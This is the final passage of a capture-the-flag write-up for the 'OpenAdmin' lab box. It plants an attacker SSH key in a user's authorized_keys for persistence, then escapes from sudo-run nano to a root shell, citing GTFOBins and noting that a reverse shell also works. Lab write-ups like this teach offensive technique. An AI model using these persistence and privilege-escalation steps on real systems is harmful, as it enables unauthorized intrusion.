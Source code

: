 Then, add our public key (`openadmin.pub`) into joanna's authorized_keys.

`$ echo 'ssh-rsa <SNIP> root@kali' >> authorized_keys`

We can now connect to the machine via SSH as joanna.

`ssh joanna@10.10.10.171 -i openadmin`

### Getting A Shell From Within Nano

Now, let's launch nano as root.

`sudo /bin/nano /opt/priv`

[To escape nano into shell](https://gtfobins.github.io/gtfobins/nano/):

* Then, press `^R` followed by `^X` to execute command within nano.
* Execute `reset; sh 1>&0 2>&0` to escape into a shell. 

You can also execute any reverse shell one liner.

![nano escape](images/openadmin/nanoescape.png)

# Thoughts

This is a straightforward box that reinforces a few basic techniques for Linux boxes.
